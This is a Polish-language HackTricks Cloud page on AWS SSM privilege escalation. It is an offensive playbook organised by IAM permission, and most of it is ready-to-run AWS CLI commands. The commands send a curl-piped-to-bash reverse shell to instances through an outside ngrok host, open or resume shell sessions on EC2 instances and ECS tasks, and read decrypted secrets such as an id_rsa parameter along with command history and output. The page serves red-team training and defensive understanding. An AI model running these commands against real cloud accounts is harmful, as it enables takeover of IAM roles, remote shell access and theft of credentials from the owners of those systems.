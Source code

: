 # AWS - SSM Privesc

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie dla HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Dziel się trikami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}

## SSM

Aby uzyskać więcej informacji o SSM, sprawdź:

{% content-ref url="../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/" %}
[aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum](../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/)
{% endcontent-ref %}

### `ssm:SendCommand`

Atakujący z uprawnieniem **`ssm:SendCommand`** może **wykonywać polecenia w instancjach** działających z Amazon SSM Agent i **kompromitować rolę IAM** działającą w jej obrębie.
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/4.tcp.ngrok.io:16084 | bash"
```
W przypadku, gdy używasz tej techniki do eskalacji uprawnień w już skompromitowanej instancji EC2, możesz po prostu przechwycić rev shell lokalnie za pomocą:
```bash
# If you are in the machine you can capture the reverseshel inside of it
nc -lvnp 4444 #Inside the EC2 instance
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/127.0.0.1:4444 | bash"
```
**Potencjalny wpływ:** Bezpośrednie privesc do ról IAM EC2 przypisanych do działających instancji z uruchomionymi agentami SSM.

### `ssm:StartSession`

Atakujący z uprawnieniem **`ssm:StartSession`** może **rozpocząć sesję podobną do SSH w instancjach** uruchamiających agenta Amazon SSM i **skompromitować rolę IAM** działającą wewnątrz niej.
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm start-session --target "$INSTANCE_ID"
```
{% hint style="danger" %}
Aby rozpocząć sesję, musisz mieć zainstalowany **SessionManagerPlugin**: [https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html](https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html)
{% endhint %}

**Potencjalny wpływ:** Bezpośrednie podniesienie uprawnień do ról IAM EC2 przypisanych do działających instancji z uruchomionymi agentami SSM.

#### Podniesienie uprawnień do ECS

Gdy **zadania ECS** są uruchamiane z **włączoną opcją `ExecuteCommand`**, użytkownicy z wystarczającymi uprawnieniami mogą użyć `ecs execute-command`, aby **wykonać polecenie** wewnątrz kontenera.\
Zgodnie z [**dokumentacją**](https://aws.amazon.com/blogs/containers/new-using-amazon-ecs-exec-access-your-containers-fargate-ec2/) odbywa się to poprzez utworzenie bezpiecznego kanału między urządzeniem, którego używasz do inicjowania polecenia “_exec_”, a docelowym kontenerem z SSM Session Manager. (Wtyczka SSM Session Manager jest niezbędna do działania tej funkcji)\
Dlatego użytkownicy z `ssm:StartSession` będą mogli **uzyskać powłokę wewnątrz zadań ECS** z włączoną tą opcją, po prostu uruchamiając:
```bash
aws ssm start-session --target "ecs:CLUSTERNAME_TASKID_RUNTIMEID"
```
![](<../../../.gitbook/assets/image (185).png>)

**Potencjalny wpływ:** Bezpośrednie podniesienie uprawnień do ról `ECS` IAM przypisanych do uruchomionych zadań z włączonym `ExecuteCommand`.

### `ssm:ResumeSession`

Atakujący z uprawnieniem **`ssm:ResumeSession`** może ponownie **uruchomić sesję podobną do SSH w instancjach** działających z Amazon SSM Agent w stanie sesji SSM **rozłączonej** i **skompromitować rolę IAM** działającą w jej obrębie.
```bash
# Check for configured instances
aws ssm describe-sessions

# Get resume data (you will probably need to do something else with this info to connect)
aws ssm resume-session \
--session-id Mary-Major-07a16060613c408b5
```
**Potencjalny wpływ:** Bezpośrednie privesc do ról IAM EC2 przypisanych do działających instancji z uruchomionymi agentami SSM i rozłączonymi sesjami.

### `ssm:DescribeParameters`, (`ssm:GetParameter` | `ssm:GetParameters`)

Atakujący z wymienionymi uprawnieniami będzie w stanie wylistować **parametry SSM** i **odczytać je w postaci tekstu jawnego**. W tych parametrach często **znajdziesz wrażliwe informacje** takie jak klucze SSH lub klucze API.
```bash
aws ssm describe-parameters
# Suppose that you found a parameter called "id_rsa"
aws ssm get-parameters --names id_rsa --with-decryption
aws ssm get-parameter --name id_rsa --with-decryption
```
**Potencjalny wpływ:** Znalezienie wrażliwych informacji w parametrach.

### `ssm:ListCommands`

Atakujący z tym uprawnieniem może wylistować wszystkie **komendy** wysłane i miejmy nadzieję znaleźć **wrażliwe informacje** w nich.
```
aws ssm list-commands
```
**Potencjalny wpływ:** Znalezienie wrażliwych informacji w liniach poleceń.

### `ssm:GetCommandInvocation`, (`ssm:ListCommandInvocations` | `ssm:ListCommands`)

Atakujący z tymi uprawnieniami może wylistować wszystkie **polecenia** wysłane i **przeczytać wygenerowany wynik**, mając nadzieję na znalezienie **wrażliwych informacji** w nim.
```bash
# You can use any of both options to get the command-id and instance id
aws ssm list-commands
aws ssm list-command-invocations

aws ssm get-command-invocation --command-id <cmd_id> --instance-id <i_id>
```
**Potencjalny wpływ:** Znajdź wrażliwe informacje w wynikach poleceń.

### Codebuild

Możesz również użyć SSM, aby dostać się do projektu codebuild, który jest budowany:

{% content-ref url="aws-codebuild-privesc.md" %}
[aws-codebuild-privesc.md](aws-codebuild-privesc.md)
{% endcontent-ref %}

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie dla HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Dziel się trikami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}
